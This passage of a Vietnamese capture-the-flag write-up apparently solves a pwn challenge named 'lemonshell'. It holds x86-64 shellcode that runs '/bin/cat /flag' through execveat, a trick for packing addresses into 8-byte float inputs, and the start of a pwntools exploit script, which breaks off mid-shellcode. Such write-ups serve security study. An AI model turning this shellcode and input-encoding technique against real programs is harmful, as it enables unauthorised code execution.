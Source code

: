 - tiếp theo sẽ là đọc flag

```cs
 push 0x42
    pop rax
    inc ah
    cqo

    push rdx
    movabs rdi, 0x67616c662f
    push rdi
    push rsp
    pop r12

    push rdx
    movabs rdi, 0x7461632f6e69622f
    push rdi
    push rsp
    pop rsi

    push rdx
    push r12
    push rsi
    push rsp
    pop rdx

    xor rdi, rdi
    mov r10, rdi
    mov r8, rdi
    syscall
```

- ta cũng cần chú ý là mỗi lần ta chỉ được input 8 byte và nó sẽ đọc giá trị float , vậy ta có thể sử dụng : 

```cs
payload = str(struct.unpack('d', p64(addr))[0]).encode()
###################################################################################
payload = str(struct.unpack('d', b'\xff\xff\xff\xff\xff\xff\xff\xff')[0]).encode()
```

exp 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe =  ELF('./lemonshell.bin')
context.arch = 'amd64'
from struct import unpack
p = process()
shellcode = asm(
    """
    push 0x42
    pop rax
    inc ah
    cqo

    push rdx
    movabs rdi, 0x2f
    push rdi
    push rsp
    pop r12

    push rdx
    movabs rdi, 0x736c2f2f6e69622f
```